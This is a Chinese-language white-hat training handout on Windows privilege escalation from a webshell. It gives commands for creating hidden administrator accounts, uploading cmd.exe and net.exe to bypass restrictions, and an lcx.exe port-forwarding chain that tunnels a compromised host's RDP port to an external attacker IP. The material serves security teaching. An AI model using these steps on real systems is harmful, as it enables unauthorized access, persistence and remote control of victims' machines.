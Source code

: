 ```yaml
---
title: 米斯特白帽培训讲义 漏洞篇 提权
id: csdn53888106
---
```


# 米斯特白帽培训讲义 漏洞篇 提权

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

提权，顾名思义就是提高自己在服务器中的权限，就比如在 Windows 中你本身登录的用户是 guest，通过提权后就变成超级管理员，拥有了管理 Windows 的所有权限。提权是黑客的专业名词，一般用于网站入侵和系统入侵。本讲义所讲的是基于 WebShell 的菜刀管理下提权。

![](../img/623cd392690a870fbf9c9510a418ded5.png)

## 基本 Dos 命令、常识

*   `whoami`：查看当前用户名，用于查看权限大小。
*   `ipconfig`：显示当前 TCP/IP 配置，用于查看 IP。
*   `net user`：查看当前系统的所有用户。
*   `net user <用户名> <用户密码> /add`：创建用户。
*   `net localgroup administrators <用户名> /add`：将用户加入`administrators`用户组。
*   远程连接默认端口：3389。

下面拿菜刀中的 Shell 演示一遍这几个命令。

首先是`whoami`，可以看到`administrator`，应该是管理员。

![](../img/d1618e2bee608158e9d350544ae0bb0c.png)

然后是`ipconfig`，我们可以看到`192.168.175.129`，这是内网的 IP。

![](../img/cc60cbe8cf5eef1619f52610f930052f.png)

然后是`net user`：

![](../img/7fa2973466bd4bda763d31719c91c68d.png)

知道这些用户之后，我们需要创建自己的用户`mst`。创建后再执行`net user`，可以看到创建成功：

![](../img/7daad00082590a65788266600cc60718.png)

接下来我们创建一个名为`mst$`的用户：

![](../img/7f8e8d2b26925561926176935a1befa8.png)

可以看到它并没有显示在用户列表中，之后我们再执行`net user mst$`：

![](../img/0925a71e57706265c633a68788d93f65.png)

它又是确实存在的，这就是隐藏用户的一个小技巧。

之后我们把`mst$`添加到管理员组中，并且查看它的信息，我们发现它成功刚添加到了管理员组中。

![](../img/8fbdb8a114cd0e696b01ba8a82e2bdcc.png)

需要远程连接的时候，输入刚刚创建的用户名和密码就可以了。

## 突破限制

假如说我们在实际情况中看到了`[Err]拒绝访问`：

![](../img/ec56f806890f706330c66e8b94297bb8.png)

那我们可以找到自己电脑上的`cmd.exe`，然后上传上去。比如上传路径如下：

![](../img/4f7413c1674845466a28727e2d2d3e79.png)

我们就可以执行`setp <路径>\cmd.exe`：

![](../img/41b745809d68ac938aa00fffe7132a8e.png)

我们再来看各种命令：

![](../img/50b82d849b6ff3451084a95ec175503b.png)

![](../img/39b79782506a373cdaf627e4c26400a4.png)

`net user`还是拒绝访问的，我们用老方法，找到自己电脑中的`net.exe`，然后传上去。之后执行`<路径>\net.exe user`：

![](../img/0f0999c4711af2e52dfd9e04260d9997.png)

可以看到突破了限制。

## 端口转发

在提权过程中，我们经常碰到这样的情况：

![](../img/fa5104a448e5fe68744cee5e96af530e.png)

我们可以看到 WebShell 的主机处于内网下，内网的意思就是说，它能连接别人，但别人不能连接它，就跟连接路由器的个人电脑差不多。

那么这种情况下，我们就需要用到端口转发工具`lcx.exe`，除此之外，还需要一台拥有外网 IP 的主机。这里我们把内网的主机叫做肉鸡，独立 IP 主机叫做本机。

将`lcx.exe`上传至本机和肉鸡之后，首先确定本机的 IP 为`119.90.140.191`：

![](../img/8be265a2a5def0dda9001f16e19e60cf.png)

然后我们在本机执行：

```
lcx.exe -listen 51 3388
```

![](../img/841c0738b005e3823e9c1b1f05bd64fe.png)

这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```

![](../img/db1bb5351c73cb4a031ddc66fdee4a48.png)

这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。

![](../img/6313c4db2d62af7086dc9f357706967d.png)

远程连接客户端的封包会发给主机的`lcx`，之后会发给肉鸡的`lcx`，之后会发给肉鸡的远程连接服务。响应封包会按原路返回。

等待一会儿之后，我们成功连接了肉鸡的远程桌面：

![](../img/c73e5ce04b16cee72ef739945b3bc874.png)